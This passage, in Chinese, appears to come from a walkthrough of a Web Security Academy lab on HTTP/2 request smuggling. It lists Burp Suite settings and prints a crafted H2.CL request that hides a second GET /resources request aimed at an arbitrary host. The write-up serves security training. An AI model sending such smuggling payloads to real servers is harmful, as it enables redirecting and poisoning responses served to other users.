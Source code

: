 [![](assets/1705287960-61675e6752de976a8eb07e9f22cf9548.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111103351-db257146-b029-1.png)  
备注：在构造请求时需要在 Burpsuite 中禁用 Update-CL，同时勾选 Allow HTTP/2 ALPN override 并且把协议改为 HTTP2  
[![](assets/1705287960-4a6dfb9ebda551745d7e4ca08d195194.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111103402-e21048e6-b029-1.png)  
Step 2：在 Burp suite 中发送"GET /resources"请求，此时可以看到会被重定向到[https://0aed00cf039321e185db1c3f00a80002.web-security-academy.net/resources/](https://0aed00cf039321e185db1c3f00a80002.web-security-academy.net/resources/)

[![](assets/1705287960-f7da394186c3e2dccf200a6e86a4e65f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111103417-eae1c22e-b029-1.png)  
Step 3：随后尝试构造下面的请求来隐藏对任意的 host 的/resources 请求

```plain
POST / HTTP/2
Host: 0aed00cf039321e185db1c3f00a80002.web-security-academy.net
Cookie: session=LPq3scqI6nFu4qD2LbowPurZhkiVCXtY
Content-Length: 0

GET /resources HTTP/1.1
Host: www.baidu.com
Content-Length: 6

x=1
```

